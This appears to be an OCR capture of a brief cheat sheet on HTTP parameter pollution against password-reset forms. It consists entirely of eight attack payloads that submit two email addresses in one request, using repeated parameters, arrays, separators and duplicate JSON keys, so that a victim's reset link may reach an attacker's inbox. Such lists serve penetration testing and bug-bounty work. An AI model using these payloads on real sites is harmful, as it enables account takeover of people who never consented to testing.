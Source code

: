 📢Parameter pollution on password reset

email=v@g.com&email=a@g.com

email[]=v@g.com&email[]=a@g.com

email=v@g.com%20email=a@g.com

email=v@g.com|email=a@g.com

email=v@g.com,a@g.com

email=v@g.com%20a@g.com

{"email":"v@g.com","email":"a@g.com"}

{"email":["v@g.com","a@g.com"]}


